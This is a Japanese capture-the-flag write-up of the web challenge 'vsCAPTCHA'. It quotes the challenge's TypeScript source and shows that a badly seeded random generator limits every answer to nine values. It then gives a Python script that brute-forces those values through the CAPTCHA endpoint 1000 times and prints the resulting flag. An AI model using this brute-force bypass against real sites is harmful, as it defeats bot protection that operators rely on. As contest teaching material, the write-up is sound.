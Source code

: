# vsCAPTCHA:Web:482pts
vsCAPTCHA: the ultimate solution to protect your site from 100% of bots, guaranteed!  
[https://vscaptcha-twekqonvua-uc.a.run.app](https://vscaptcha-twekqonvua-uc.a.run.app/)  
Downloads  
[vsCAPTCHA.zip](vsCAPTCHA.zip)  

# Solution
URLとソースが渡される。  
アクセスするとオレオレCAPTCHAが動いており、表示されている数字の足し算を1000回正解するとクリアのようだ。  
vsCaptcha  
[site.png](site/site.png)  
光学文字認識も不可能で一見すると安全だが、眺めていると不審な点に気づく。  
計算のもととなる二つの数字が`154~160`、`425~427`の間のみで動いている。  
乱数の生成部分がおかしいと予想し、配布されたソースを見ると以下のようであった。  
```ts
~~~
const FLAG = Deno.env.get("FLAG") ?? "vsctf{REDACTED}";
const captchaSolutions = new Map();

interface CaptchaJWT {
  exp: number;
  jti: string;
  flag?: string;
  failed: boolean;
  numCaptchasSolved: number;
}

const jwtKey = await jose.importPKCS8(
  new TextDecoder().decode(await Deno.readFile("./jwtRS256.key")),
  "RS256"
);
const jwtPubKey = await jose.importSPKI(
  new TextDecoder().decode(await Deno.readFile("./jwtRS256.key.pub")),
  "RS256"
);

const app = new Application();
const router = new Router();

const b1 = Math.floor(Math.random() * 500);
const b2 = Math.floor(Math.random() * 500);

~~~

router.post("/captcha", async (ctx) => {
  const stateJWT = ctx.request.headers.get("x-captcha-state");
  const body = await ctx.request.body({
    type: "json",
  }).value;
  const solution = body.solution;

  let jwtPayload: CaptchaJWT = {
    // 10 seconds to solve
    exp: Math.round(Date.now() / 1000) + 10,
    jti: crypto.randomUUID(),
    failed: false,
    numCaptchasSolved: 0,
  };

  if (stateJWT) {
    try {
      const { payload } = await jose.jwtVerify(stateJWT, jwtPubKey);
      jwtPayload.numCaptchasSolved = payload.numCaptchasSolved;

      if (
        !captchaSolutions.get(payload.jti) ||
        captchaSolutions.get(payload.jti) !== solution
      ) {
        const jwt = await new jose.SignJWT({
          failed: true,
          numCaptchasSolved: payload.numCaptchasSolved,
          exp: payload.exp,
        })
          .setProtectedHeader({ alg: "RS256" })
          .sign(jwtKey);

        ctx.response.headers.set("x-captcha-state", jwt);
        ctx.response.status = 401;
        return;
      }
    } catch {
      ctx.response.status = 400;
      return;
    }

    jwtPayload.numCaptchasSolved += 1;
  }

  const num1 = Math.floor(Math.random() * 7) + b1;
  const num2 = Math.floor(Math.random() * 3) + b2;

  const captcha = createCaptcha({
    width: 250,
    height: 150,
    // @ts-ignore provided options are merged with default options
    captcha: {
      text: `${num1} + ${num2}`,
    },
  });
~~~
});
~~~
```
jtiをキーとしたMapで数値の正誤判定が実装されているようだ。  
一度目の乱数生成がグローバルで宣言されており固定されている。  
二度目の乱数生成では一度目の乱数から`+7`、`+3`の範囲の整数でのみ変動するため、計算の答えは高々9通りの`579~587`である。  
jwtによるキーの受け渡しは10秒間の猶予があり、不正解である場合のリセットなどはないようなので、すべてのパターンをPOSTすれば正解を引き当てることができる。  
以下のimarobot.pyで行う(運営のサーバが貧弱でたびたび落ちたため、Speed up機構を導入している泣)。  
```python
import sys
import json
import base64
import requests

url = "https://vscaptcha-twekqonvua-uc.a.run.app"
#url = "http://localhost:8080" # Debug

res = requests.post(f"{url}/captcha", data="{}")
x_captcha_state = res.headers["x-captcha-state"]
print(base64.b64decode(x_captcha_state.split(".")[1] + "==").decode())

while True:
    for ans in [579, 580, 581, 582, 583, 584, 585, 586, 587]: # [154, 155, 156, 157, 158, 159, 160] + [425, 426, 427]
        res = requests.post(f"{url}/captcha", data=f"{{\"solution\": {ans}}}", headers={"x-captcha-state": x_captcha_state})
        if len(res.content) == 0: # Speed up!!
            continue
        try:
            state = base64.b64decode(res.headers["x-captcha-state"].split(".")[1] + "==").decode()
        except:
            print(res.headers["x-captcha-state"]) # Padding error?
        json_state = json.loads(state)
        print(state)
        if json_state["failed"] == False:
            if json_state["numCaptchasSolved"] >= 1000:
                print(f"Flag: {json_state['flag']}")
                sys.exit()
            x_captcha_state = res.headers["x-captcha-state"]
            break
```
実行する。  
```bash
$ python imarobot.py
{"exp":1657416673,"jti":"e43e4e71-afbe-4506-b0f7-a836448c3fab","failed":false,"numCaptchasSolved":0}
{"exp":1657416674,"jti":"72e4b5e7-3853-4a5f-8547-9bdc4e7ceed2","failed":false,"numCaptchasSolved":1}
{"exp":1657416677,"jti":"d39acf8e-4d55-4d91-a6f8-324fe1fea197","failed":false,"numCaptchasSolved":2}
~~~
{"exp":1657418403,"jti":"bf53eaf3-e73d-4f88-8db8-561a7cc5c1ac","failed":false,"numCaptchasSolved":998}
{"exp":1657418406,"jti":"27760cf6-5a2e-42d1-9408-bf5a09ac837c","failed":false,"numCaptchasSolved":999}
{"exp":1657418407,"jti":"7984a1c9-2345-49fd-89e2-1604de1ede16","failed":false,"numCaptchasSolved":1000,"flag":"vsctf{aut0m4t3d_act1vity_d3tected_s0lv3_1000_m0r3_c4ptcha5_t0_c0ntinu3}"}
Flag: vsctf{aut0m4t3d_act1vity_d3tected_s0lv3_1000_m0r3_c4ptcha5_t0_c0ntinu3}
```
flagが得られた。  

## vsctf{aut0m4t3d_act1vity_d3tected_s0lv3_1000_m0r3_c4ptcha5_t0_c0ntinu3}